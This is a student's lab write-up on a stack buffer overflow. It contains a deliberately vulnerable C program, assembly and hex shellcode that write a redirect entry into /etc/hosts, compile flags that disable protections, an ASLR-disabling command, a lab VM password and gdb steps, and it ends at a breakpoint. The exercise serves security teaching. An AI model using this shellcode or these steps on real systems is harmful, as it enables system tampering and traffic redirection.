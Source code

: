 # Lab #1,22110034, Nguyen Gia Huy, INSE331280E_02FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program

```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
    char buffer[16];
    strcpy(buffer,argv[1]);
    return 0;
}
```

and a shellcode in asm. This shellcode add a new entry in hosts file

```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"
```

**Question 1**:

- Compile asm program and C program to executable code.
- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is added to the /etc/hosts file on your linux.  You are free to choose Code Injection or Environment Variable approach to do.
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.

**Anwser 1:**

## 1. Compile asm program and C program to executable code:

*Compile the C program with `gcc`:*

```bash
gcc vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
```

*Assemble the shellcode:*

```bash
nasm -f elf32 sh.asm -o sh.o
```

*Link the object file to create an executable:*

```bash
ld -m elf_i386 -o sh sh.o
```

Generate the Hex String:

```
for i in $(objdump -d sh | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
```

Result:

```bash
\x31\xc9\xb0\x05\x51\x68\x6f\x73\x74\x73\x68\x2f\x2f\x2f\x68\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\x01\x04\xcd\x80\x93\x6a\x04\x58\xeb\x10\x59\x6a\x14\x5a\xcd\x80\x6a\x06\x58\xcd\x80\x6a\x01\x58\xcd\x80\xe8\xeb\xff\xff\xff\x31\x32\x37\x2e\x31\x2e\x31\x2e\x31\x20\x67\x6f\x6f\x67\x6c\x65\x2e\x63\x6f\x6d
```

Estimate Buffer Size:

![image-20241022100650845](C:\Users\User\AppData\Roaming\Typora\typora-user-images\image-20241022100650845.png)

## 2. Prepare for the attack

Turn off OS's address space layout randomization:

```bash
sudo sysctl -w kernel.randomize_va_space=0
```

> The password for seed: dees

Result:

![image-20241022111228390](C:\Users\User\AppData\Roaming\Typora\typora-user-images\image-20241022111228390.png)

Creat link to zsh:

```bash
sudo ln -sf /bin/zsh /bin/sh
```

## 3. Conducting the attack

Load `vuln.out` in `gdb`:

```bash
gdb -q vuln.out
```

Disassemble `main` function:

```bash
gdb-peda$ disas main
```

Result:

![image-20241022110847287](C:\Users\User\AppData\Roaming\Typora\typora-user-images\image-20241022110847287.png)

From the above result, we see that the address after the `strcpy` instruction is `0x08048423`. So we put break point at this address.

```bash
b *0x08048423
```

![image-20241022112205737](C:\Users\User\AppData\Roaming\Typora\typora-user-images\image-20241022112205737.png)